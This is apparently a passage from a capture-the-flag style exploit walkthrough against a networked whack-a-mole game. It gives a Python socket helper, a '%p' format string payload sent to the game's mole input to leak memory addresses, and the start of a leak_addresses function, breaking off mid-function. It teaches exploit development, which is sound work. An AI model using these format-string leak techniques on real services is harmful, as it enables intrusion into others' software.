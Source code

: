 To send and receive data, we need a `handler`; this code cave can help:

```python
def recv_until(s, delim, timeout=2):
    s.settimeout(timeout)
    data = b""
    try:
        while delim not in data:
            chunk = s.recv(1)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    finally:
        s.settimeout(None)
    return data
```

Effectively, this will receive data and as long as we keep receiving data, it will be parsed otherwise a timeout is assumed at a given interval or terminating condition is reached.

**3. Input fields and Format String Vulnerability Analysis**  

When given a user input field, exploit developers will often look towards the presence of certain types of vulnerabilities; one being format string vulnerabilities.

For further learning, we can take a look at the following reference: 
https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

To execute the string format vulnerability any payload that utilizes a series of (what would be) substitution variables (%p). Here's a sample payload:

```bash
%p %p %p %p %p %p %p %p
```

In this instance, sending this payload to the video game's Mole To Hit parameter yields several memory addresses. These addresses are potential pointers to functions that control the flow of the application:

![Image of exploitation (format string vulnerability)](img/format_string_vuln.png)

Next, we must find a way to store the "leaked addresses"; these two functions will both leak and store them for future use:

```python
def leak_addresses(s):
    """
    Read until the prompt, send a format string payload, and return the leaked string.
    """
    # Wait for the initial prompt (e.g. "Select a mole hole (1-9):")
    init_data = recv_until(s, b"Select a mole hole (1-9):")
    print("[*] Received initial data:")
    print(init_data.decode(errors="ignore"))
    
    # Send our format string payload.
    leak_payload = "LEAK:%p:%p:%p:%p:%p:%p:%p:%p\n"
    s.sendall(leak_payload.encode())
    
    # Wait for the leaked addresses.
```